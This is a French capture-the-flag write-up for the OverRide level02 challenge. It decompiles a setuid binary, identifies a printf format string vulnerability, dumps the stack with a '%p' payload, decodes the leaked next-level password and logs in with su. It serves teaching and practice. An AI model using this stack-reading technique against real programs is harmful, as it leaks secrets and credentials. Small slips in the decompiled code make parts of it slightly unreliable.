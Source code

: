 Je commence par analyser mon environnement :

```bash
$ id && pwd && ls -la
uid=1002(level02) gid=1002(level02) groups=1002(level02),100(users)
/home/users/level02
total 21
dr-xr-x---+ 1 level02 level02   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level02 level02  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level02 level02 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level03 users   9452 Sep 10  2016 level02
-rw-r--r--+ 1 level02 level02   41 Oct 19  2016 .pass
-rw-r--r--  1 level02 level02  675 Sep 10  2016 .profile
```

Je trouve un binaire `level02`, que je tente d'éxecuter :

```bash
$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: dab
--[ Password: bad
*****************************************
dab does not have access!
```

Je tente de décompiler le binaire avec [Dogbolt](hhttps://dogbolt.org/?id=60c28629-ef06-4d6a-aa25-bf54ea99c497#Hex-Rays=28) :

```c
int main(int argc, const char **argv)
{
  char password[100]; // [rsp+10h] [rbp-110h] BYREF
  char flag[41]; // [rsp+80h] [rbp-A0h] BYREF
  char user_name[100]; // [rsp+B0h] [rbp-70h] BYREF
  int pass_len; // [rsp+114h] [rbp-Ch]
  FILE *stream; // [rsp+118h] [rbp-8h]

  memset(user_name, 0, 100);
  memset(ptr, 0, 41);
  memset(password, 0, 100);

  stream = 0;
  pass_len = 0;

  stream = fopen("/home/users/level03/.pass", "r");

  if ( !stream )
  {
    fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
    exit(1);
  }

  pass_len = fread(flag, 1, 41, stream); // <---1 next level's flag gets stored in flag variable

  flag[strcspn(flag, "\n")] = 0;

  if ( pass_len != 41 )
  {
    fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
    fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
    exit(1);
  }

  fclose(stream);

  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");

  printf("--[ Username: ");
  fgets(user_name, 100, stdin);
  user_name[strcspn(user_name, "\n")] = 0;

  printf("--[ Password: ");
  fgets(password, 100, stdin);
  password[strcspn(password, "\n")] = 0;

  puts("*****************************************");

  if ( strncmp(flag, password, 41) )
  {
    printf(user_name); // <---------------------2 format string vulnerability allows us to read stack, and therefore the value of 'flag'
    puts(" does not have access!");
    exit(1);
  }

  printf("Greetings, %s!\n", user_name);
  system("/bin/sh");

  return 0;
}
```

Comme précédemment dans `Rainfall`, il est ici question d'exploiter le `printf(user_name)`. En effet, `printf` sans argument et qui lit le user input est un exploit qu'on appelle "[format string vulnerability](https://owasp.org/www-community/attacks/Format_string_attack)".

Ici, il pourrait s'agir d'utiliser cet exploit afin de lire la valeur de la variable "flag" puisqu'elle contient le password et qu'elle est dans la stack.

Je ne peux pas utiliser de `break` dans `gdb` pour investiguer où se trouve la valeur de `flag` dans la stack car `gdb` n'a pas les droits de lire le fichier `.pass` et je ne peux donc pas `run` ce binaire.

Je vais donc "bruteforcer" la lecture de la stack au travers d'un petit script python :

```h
$ python -c 'print("%p " * 100)'| ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: --[ Password: *****************************************
0x7fffffffe500 (nil) 0x25 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6f8 0x1f7ff9a08 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x100207025 (nil) ->[0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d]<- (nil) 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070  does not have access!
```

J'ai autant d'adresse si je tente avec 200, je peux donc raisonnablement imaginer que j'ai imprimé toute la stack.

Je tente une conversion HEX -> ASCII des adresses les plus suspicieuse (que j'ai mis entre crochet) :

```bash
0x756e505234376848 -> Hh74RPnu
0x45414a3561733951 -> Q9sa5JAE
0x377a7143574e6758 -> XgNWCqz7
0x354a35686e475873 -> sXGnh5J5
0x48336750664b394d -> M9KfPg3H
```

Cela ressemble donc fort à un mot de passe, je le tente : 

```bash
$ su level03
Password: Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H

level03@OverRide:~$
```
